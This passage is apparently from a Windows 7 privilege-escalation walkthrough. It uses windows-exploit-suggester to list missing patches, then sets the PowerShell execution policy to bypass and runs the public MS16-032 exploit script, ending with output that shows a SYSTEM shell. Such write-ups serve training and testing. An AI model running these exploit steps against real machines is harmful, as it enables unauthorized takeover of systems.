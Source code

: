 ```cmd

# Save output to file: systeminfo.txt
```

### Vulnerability Analysis
```bash
# Run exploit suggester:
python2.7 windows-exploit-suggester.py --database 2022-11-22-mssb.xls --systeminfo systeminfo.txt

# Common Windows 7 vulnerabilities:
[E] MS16-135: win32k Denial of Service
[E] MS16-098: RGNOBJ Integer Overflow  
[M] MS16-075: SMB Server (RottenPotato/HotPotato)
[E] MS16-032: Secondary Logon Handle - Important ⭐
[M] MS14-012: Internet Explorer
[E] MS13-101: Windows Kernel-Mode Drivers

# Key: [E] = ExploitDB PoC, [M] = Metasploit module
```

## 🚀 MS16-032 Privilege Escalation

### Vulnerability Details
```cmd
# CVE-2016-0099: Secondary Logon Service
- Affects Windows 7-10 & Server 2008-2012
- Privilege escalation through token impersonation
- PowerShell PoC available
- Reliable exploitation method
```

### PowerShell Exploit Execution
```powershell
# Set execution policy:
Set-ExecutionPolicy bypass -scope process
# Choose: Y (Yes)

# Import and execute MS16-032:
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032

# Exploit output:
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 6
[>] Duplicating CreateProcessWithLogonW handle
[*] Sniffing out privileged impersonation token..
[?] Thread belongs to: svchost
[>] Building SYSTEM impersonation token
[!] Holy handle leak Batman, we have a SYSTEM shell!!

# Result: NT AUTHORITY\SYSTEM cmd console spawned
```
